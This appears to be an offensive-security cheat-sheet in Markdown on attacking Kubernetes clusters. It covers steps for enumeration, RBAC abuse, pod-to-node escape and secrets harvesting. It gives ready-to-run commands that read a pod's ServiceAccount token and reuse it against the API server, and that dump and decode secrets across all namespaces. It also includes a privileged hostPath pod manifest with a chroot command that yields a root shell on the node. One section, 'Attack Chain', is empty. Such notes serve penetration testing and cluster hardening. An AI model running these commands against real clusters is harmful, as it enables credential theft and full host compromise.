

#containers #kubernetes #k8s #rbac

# Kubernetes Enumeration, RBAC Abuse & Pod Escape

Related: [docker](docker.md) · [gcp](../Cloud/gcp.md) · [process-injection](../Windows/process-injection.md)

## Contents
- [Initial Enumeration](#initial-enumeration)
- [Permission Enumeration (the authoritative check)](#permission-enumeration-the-authoritative-check)
- [Dangerous RBAC Primitives to Look For](#dangerous-rbac-primitives-to-look-for)
- [Attack Chain: RBAC to Node Escape](#attack-chain-rbac-to-node-escape)
- [Pod → Node Escape](#pod--node-escape)
- [Secrets Harvesting](#secrets-harvesting)
- [Tooling](#tooling)

## Initial Enumeration
- [ ] Confirm cluster access and survey scope (`cluster-info`, nodes, pods across all namespaces)
- [ ] Extract the pod's mounted ServiceAccount token (every pod gets one by default)
- [ ] Authenticate to the in-cluster API server directly with that token

```bash
kubectl cluster-info
kubectl get nodes
kubectl get pods --all-namespaces
kubectl get pods -o wide -n <namespace>
```
Confirm cluster access and survey nodes/workloads across all namespaces.

```bash
cat /var/run/secrets/kubernetes.io/serviceaccount/token
cat /var/run/secrets/kubernetes.io/serviceaccount/namespace
cat /var/run/secrets/kubernetes.io/serviceaccount/ca.crt
```
> [!TIP]
> From inside a pod: every pod gets a mounted ServiceAccount token by default — this alone is often enough to talk to the API server as that SA.

```bash
kubectl --token=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token) --server=https://kubernetes.default.svc --certificate-authority=/var/run/secrets/kubernetes.io/serviceaccount/ca.crt get pods
```
Use the mounted token directly against the in-cluster API server without a pre-built kubeconfig.

## Permission Enumeration (the authoritative check)
- [ ] Enumerate your own effective permissions (`auth can-i --list`)
- [ ] Enumerate a specific ServiceAccount's permissions
- [ ] Probe for specific dangerous grants (pod creation in `kube-system`, cluster-wide secrets)
- [ ] Reverse-lookup which subjects hold a sensitive verb (`kubectl-who-can`)

```bash
kubectl auth can-i --list
kubectl auth can-i --list --as=system:serviceaccount:<namespace>:<sa-name>
kubectl auth can-i create pods --namespace=kube-system
kubectl auth can-i get secrets --all-namespaces
```
`can-i` queries the live authorizer (including any webhooks), so it's the ground truth for what a subject can actually do — more reliable than reading RoleBindings by hand.

```bash
go install github.com/aquasecurity/kubectl-who-can@latest
kubectl who-can create pods
kubectl who-can get secrets -n kube-system
```
Reverse-lookup: which subjects (users/groups/SAs) can perform a given verb on a given resource.

## Dangerous RBAC Primitives to Look For
| Primitive | Abuse |
|---|---|
| `pods/exec`, `pods/attach` | Shell into any pod in scope (including more-privileged ones) |
| `pods/portforward` | Reach services not otherwise exposed |
| `secrets` get/list | Read other workloads'/SAs' credentials across the namespace |
| `escalate` verb on roles/clusterroles | Grant yourself any permission a role you can already edit doesn't have |
| `bind` verb | Bind a ClusterRole (even one you don't own) to a RoleBinding you control |
| `impersonate` on users/groups/serviceaccounts | Act as a more-privileged identity directly |
| Membership in `system:masters` | Full cluster-admin, bypasses all RBAC checks entirely |
| `create` on `pods` + privileged `PodSecurityPolicy`/no PSA restriction | Schedule a privileged pod to escape to the node (see [docker](docker.md)) |

> [!WARNING]
> Membership in `system:masters` grants full cluster-admin and bypasses all RBAC checks entirely — treat it as an immediate critical finding.

## Attack Chain: RBAC to Node Escape



## Pod → Node Escape
```yaml
apiVersion: v1
kind: Pod
metadata:
  name: escape
spec:
  containers:
  - name: escape
    image: alpine
    command: ["/bin/sh", "-c", "sleep infinity"]
    securityContext:
      privileged: true
    volumeMounts:
    - name: host
      mountPath: /host
  volumes:
  - name: host
    hostPath:
      path: /
```
```bash
kubectl apply -f escape.yaml
kubectl exec -it escape -- chroot /host sh
```
> [!CAUTION]
> If you can create pods and the cluster allows `privileged: true` with a `hostPath` mount of `/`, this gets you a root shell on the underlying node — full cluster-to-host compromise.

## Secrets Harvesting
```bash
kubectl get secrets --all-namespaces
kubectl get secret <name> -n <namespace> -o jsonpath='{.data}' | jq
echo '<base64-value>' | base64 -d
```
> [!NOTE]
> Kubernetes Secrets are base64-encoded, not encrypted at rest by default — anyone who can `get` them reads them in plaintext.

## Tooling
```bash
pip3 install kube-hunter
kube-hunter --remote <target-ip>
```
Active/passive scanner for known Kubernetes misconfigurations and exposed APIs.

Also useful: `rakkess` (RBAC access-matrix at a glance), `rbac-police` (static RBAC policy analysis), `kubesploit`/`kube-bench` (CIS benchmark checks).
